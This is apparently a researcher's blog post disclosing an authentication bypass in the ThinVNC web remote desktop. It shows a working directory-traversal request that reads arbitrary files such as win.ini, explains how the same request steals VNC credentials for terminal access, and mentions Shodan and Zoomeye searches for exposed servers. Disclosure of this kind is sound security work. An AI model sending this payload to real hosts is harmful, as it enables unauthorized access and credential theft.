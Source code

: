 ```yaml
---
layout: post
title:  "ThinVNC Client Authentication Bypass"
date:   2019-10-15 18:05:55 +0300
image:  ThinVNC/title.png
author-name: jinxbox
tags:   [VNC, Auth Bypass, CVE]
---
```


<h2>Prologue:</h2>
In this blog post, I'll be writing few details about a vulnerability I found in ThinVNC. ThinVNC is a remote desktop client which works on web. I found an arbitrary file read vulnerability through which the authentication set can be bypassed. An attacker can gain remote terminal access abusing this vulnerability.

<h3> ThinVNC Application </h3>
ThinVNC can be downloaded from [sourceforge](https://sourceforge.net/projects/thinvnc/) and the source code for this is available at [github](https://github.com/bewest/thinvnc). According to it's author ThinVNC is a pure HTML5 & AJAX Remote Desktop implementation. ThinVNC works on any HTML5-compliant web browser. Users can access a remote PC from any computer or mobile OS; no additional plugin or installation will be required on the client side. 

<h3> Vulnerability Description </h3>
ThinVNC uses Basic Authentication to authenticate a user to access the web VNC interface. Credentials to be used are set on the server side while deploying the VNC server. There is no fixed port on which VNC server runs, you can run the VNC server on any port pre-configured.

A sample authentication screen looks like this:
![auth](/img/ThinVNC/CVE-2.png)

When tried with multiple with wrong authentication credentials, it throws a HTTP 401 error. This can be bypassed using the following vector: <br>
<b>**/../../../../../../../../../windows/win.ini** </b>

<h4>Sample Request:</h4>

```
GET /xyz/../../../../../../../../../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 192.168.40.1:5888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
<h4>Sample Response: </h4>

```
HTTP/1.1 200
Content-Type: application/binary
Content-Length: 96
Connection: Keep-Alive

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
<br>
![Burp](/img/ThinVNC/CVE-4.png)
<br>

This directory traversal attack vector allows us to read any arbitrary file on the system. We can use the same vector to steal the credentials for the VNC client. Once we steal them, we can use the credentials to compromise the VNC server. Post compromise, we get terminal access to the VNC server.



<h3> POC: </h3>
My friend [@WarMarx](https://twitter.com/\_WarMarX\_) on Twitter and I have written a tiny POC for this issue which can be found here: [Github POC Link](https://github.com/shashankmangal2/Exploits/tree/master/ThinVNC-RemoteAccess)

<h3> ThinVNC in the wild  </h3>
There are roughly 800 accessible ThinVNC servers exposed over internet. You can use the following queries on Shondan and Zoomeye to identiify the vulnearble servers. 
![zoomeye](/img/ThinVNC/CVE-1.png)
<br>
<br>
![shodan](/img/ThinVNC/CVE-6.png)

SourceForge Page suggests that there are 219 downloads / week on an average of this VNC software. 

<h2> Conclusion: </h2>
Do not use legacy software, even though there are no POC's or CVE's available on those software, they might be vulnerable to some issue. Always keep yourself and your software updated. Cheers :)


